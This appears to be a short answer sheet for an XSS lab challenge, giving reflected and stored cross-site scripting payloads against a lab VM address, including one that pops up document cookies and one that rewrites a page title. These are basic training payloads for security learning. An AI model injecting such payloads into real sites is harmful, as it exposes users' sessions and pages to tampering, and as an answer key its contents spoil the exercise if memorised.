

## XSS

### XSS Challenge



#1 Deploy The VM
```
No answer needed
```

#2 Go to http://10.10.91.51/reflected and craft a reflected XSS payload that will cause a popup saying "Hello".
```
<script>alert('Hello')</script>
```

#3 On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.
```
<script>alert(window.location.hostname)</script>
```

#4 Now navigate to http://10.10.91.51/stored and make an account.
   Then add a comment and see if you can insert some of your own HTML.

```
<h1>Hello</h1>
```

#5 On the same page, create an alert popup box appear on the page with your document cookies.
```
<script>alert(document.cookie)</script>
```

#6 Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.
```
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
```